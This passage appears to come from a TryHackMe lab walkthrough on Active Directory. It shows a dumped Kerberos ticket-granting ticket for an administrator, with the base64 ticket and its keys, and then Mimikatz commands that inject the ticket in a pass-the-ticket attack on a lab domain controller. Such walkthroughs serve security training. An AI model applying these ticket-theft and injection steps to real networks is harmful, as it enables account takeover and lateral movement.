 ```powershell
       
             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
       
         ServiceName              :  krbtgt/za.tryhackme.loc
         ServiceRealm             : ZA.TRYHACKME.LOC
         UserName                 : Adminsitrator
         UserRealm                : ZA.TRYHACKME.LOC
         StartTime                :  2/6/2022 5:54:46 PM
         EndTime                  :  2/7/2022 3:54:46 AM
         RenewTill                :  2/13/2022 5:54:46 PM
         Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
         KeyType                  :  aes256_cts_hmac_sha1
         Base64(key)              :  Qr+FUX+/G2jHgAR2ssW11+lhaPlB6dMD8V5/rENwJVU=
         ASREP (key)              :  BF2483247FA4CB89DA0417DFEC7FC57C79170BAB55497E0C45F19D976FD617ED
      
```

Now we can use Mimikatz to load the TGT and authenticate to THMDC:

- **Powershell**

```powershell
C:\Tools>mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::ptt administrator.kirbi

* File: 'administrator.kirbi': OK
```